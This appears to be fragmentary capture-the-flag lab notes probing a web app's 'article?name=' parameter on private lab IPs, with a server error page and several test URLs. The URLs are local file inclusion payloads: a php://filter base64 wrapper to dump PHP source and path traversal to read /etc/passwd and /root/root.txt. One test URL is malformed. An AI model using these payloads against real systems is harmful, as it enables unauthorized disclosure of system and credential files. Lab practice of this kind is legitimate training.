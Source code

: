 -----

view-source:http://10.10.115.164/article?name=./article.php

```html
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```


php://filter/convert.base64-encode/resource=article.php


Test#4: view-source:http://10.10.115.164/article?namephp://filter/convert.base64-encode/resource=../../../../etc/passwd



http://10.10.204.6/article?name=../../../root/root.txt





